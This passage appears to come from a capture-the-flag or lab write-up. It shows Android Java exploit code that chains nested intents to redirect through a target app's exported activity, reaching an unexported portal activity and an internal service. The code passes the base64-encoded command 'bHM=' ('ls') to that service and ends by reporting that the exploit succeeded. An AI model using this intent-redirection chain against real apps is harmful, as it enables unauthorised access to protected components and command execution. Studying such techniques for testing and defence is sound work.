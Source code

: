 ```java
            return insets;
        });

        // create an intent to call the internal service component
        Intent serviceIntent = new Intent();
        serviceIntent.setClassName("com.example.hunterx", "com.example.hunterx.HuntersService");
        serviceIntent.putExtra("run", "bHM=");

        // Create an intent to call the unexported hunters portal activity using intent redirection
        Intent proHunterIntent = new Intent();
        proHunterIntent.setAction("ProHunter");
        proHunterIntent.setClassName("com.example.hunterx", "com.example.hunterx.HuntersPortal");

        // pass the serviceIntent as the next intent
        proHunterIntent.putExtra("nextIntent", serviceIntent);

        // create our main intent with the correct action
        Intent intent = new Intent();
        intent.setAction(Intent.ACTION_VIEW);
        intent.setClassName("com.example.hunterx", "com.example.hunterx.MainActivity");

        // pass the proHunterIntent as the next intent
        intent.putExtra("nextIntent", proHunterIntent);

        // create a button to trigger the exploit
        Button button = findViewById(R.id.button);
        button.setOnClickListener(v -> startActivity(intent));
    }
}
```

We run the exploit and click the button to trigger the exploit. Intent redirection allowed us to access unexported components.

![img-description](5_5.png)
